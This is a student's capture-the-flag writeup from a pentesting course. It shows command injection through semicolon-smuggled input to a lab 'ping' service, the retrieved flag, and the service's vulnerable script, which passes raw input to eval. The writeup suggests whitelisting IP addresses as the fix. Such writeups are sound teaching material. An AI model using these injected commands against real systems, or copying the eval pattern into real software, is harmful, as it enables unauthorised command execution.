 # Writeup 2 - Pentesting

Name: Marco Roxas
Section: 0101

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement: Marco Roxas

## Assignment Writeup

### Part 1 (45 pts)

By starting with an IP address to see the response and then experimenting with different inputs (especially the semicolon, which delimits a command and starts a new one) and corresponding responses, and because this assignment is about command line injection, it became apparent that the input was being run as part of the ping command. After some experiments the IP address was dropped and just the semicolon was typed and then the command. Some commands I tried were ls and whoami.

But it was odd at first because the connection would time out and it wasn't obvious that spaces were allowed in the input. I initially thought that only single keywords were allowed. So I tried various quote characters and double-dashes to get around to what I thought was a single-keyword limitation. Multiple commands were tried as well, separated by varying spaces, but with not much luck.

Fortunately I realized I could include spaces (which overcame a serious limitation) and was able to look in the /home directory and cat the flag.

Just by habit I tried ps aux and saw a script running. Not knowing what it was (I wanted to know what was in opt first) I did a find opt and cat the script, which showed how the ping script. It appears that this is the script behind the service, somehow the echo commands are redirected to the remote client and the read is taken from the client.

To address this vulnerability the input can be whitelisted as a valid ip address before running the ping command.

$ nc wattsamp.net 1337
~~~~ WATTSAMP ENERGY ~~~~
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;ls           ;ls home

Ncat: Broken pipe.
$ nc wattsamp.net 1337
~~~~ WATTSAMP ENERGY ~~~~
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;find home
home
home/flag.txt


Ncat: Broken pipe.
$ nc wattsamp.net 1337
~~~~ WATTSAMP ENERGY ~~~~
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;cat home/flag.txt
Good! Here's your flag: CMSC389R-{p1ng_as_a_$erv1c3}


Ncat: Broken pipe.
$
at: Broken pipe.
$ nc wattsamp.net 1337
~~~~ WATTSAMP ENERGY ~~~~
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;ps aux
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1 10.5  0.0  18376  2892 ?        Ss   17:11   0:00 /bin/bash /opt/container_startup.sh /bin/bash
root         7  0.0  0.0  18376  1832 ?        S    17:11   0:00 /bin/bash /opt/container_startup.sh /bin/bash
root         9  0.0  0.0  34400  2860 ?        R    17:11   0:00 ps aux


Ncat: Broken pipe.
$ nc wattsamp.net 1337
~~~~ WATTSAMP ENERGY ~~~~
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;find opt
opt
opt/container_startup.sh


Ncat: Broken pipe.
$ nc wattsamp.net 1337
~~~~ WATTSAMP ENERGY ~~~~
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;cat opt/c*
#!/bin/bash

function quit {
        exit
}

echo "~~~~ WATTSAMP ENERGY ~~~~"

echo "Network Administration Panel  --  Uptime Monitor "
echo -n "Enter IP address: "
read -t 5 input || quit
>&2 echo "[$(date)] INPUT: $input"

cmd="ping -w 5 -c 2 $input"
output=$(eval $cmd)

echo "$output"


Ncat: Broken pipe.


### Part 2 (55 pts)

*Please use this space to detail your approach and solutions for part 2. Don't forget to upload your completed source code to this /writeup directory as well!*
